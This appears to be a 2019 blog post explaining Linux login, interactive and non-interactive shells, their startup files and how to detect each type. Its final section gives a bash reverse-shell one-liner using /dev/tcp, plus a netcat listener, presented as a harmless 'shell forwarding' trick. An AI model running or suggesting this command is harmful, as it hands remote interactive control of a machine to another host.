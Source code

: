 ```yaml
---
layout:     post
title:      interactive and non-interactive login
date:       2019-01-30
author:     Sandip 
summary:    Different shell types: interactive, non-interactive, login
categories: linux
thumbnail:  linux 
comment: true
tags:
     -  interactive
     -  non-interactive
     -  login
---
```


### Different shell types: interactive, non-interactive, login

#### Shells
Shells control how you interact with your computer systems. I always switch between the Bourne shell (sh), Korn shell (ksh) and Bourne-Again shell (bash) but there are numerous others.

There are three types of shells
a login shell;
an interactive shell;
a non-interactive shell.

The type of shell defines what set of features you can use. Choosing the type of shell is important to achieve your goal(s).

### A login shell
A login shell is the shell that is run when you log in to a system, either via the terminal or via SSH.

Why is this important? If you run a login shell it executes a number of files on startup. This can influence how your system behaves and you have to put your environment variables in these files. The files that are run are

.profile
.bash_profile
.bash_login

### An interactive shell
An interactive shell is when you type in the name of the shell after you have logged in to the system. For example

1.	bash
will start an interactive bash shell.

An interactive (bash) shell executes the file .bashrc so you have to put any relevant variables or settings in this file.

### A non-interactive shell
A non-interactive shell is a shell that can not interact with the user. It’s most often run from a script or similar. This means that .bashrc and .profile are not executed. It is important to note that this often influences your PATH variable. It is always a good practice to use the full path for a command but even more so in non-interactive shells.

Detect the type of shell, BASH only

You can detect if you are in an interactive or non-interactive shell with
```
1 .[[ $- == *i* ]] && echo 'Interactive' || echo 'not-interactive'
```
To detect if you are in a login shell or not you have to use the shopt command.
```
1 . shopt -q login_shell && echo 'login' || echo 'not-login'
```
or do
```
1 . shopt | grep login_shell
```
The shopt command allows you to change additional shell optional behavior.

Forwarding shells
One of the most interesting things that you can do with a shell is to forward it to another host. You will need nc or netcat on the host to which you forward the shell.

On the host with the shell you have to issue the command
```
1. bash -i >& /dev/tcp/192.168.218.1/9999 0>&1
```
The address 192.168.218.1 is the host to which you want to forward the shell. After the IP (note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving) you have to put the port number (9999) on which the netcat listener will listen.
You have to start the netcat listener on the other side. Double check that there are no firewall rules preventing you from accepting connections.
```
1 . nc -l 9999
```
Some versions of netcat require you to add -p before the port number. If all goes well you should get the shell on the listening host.
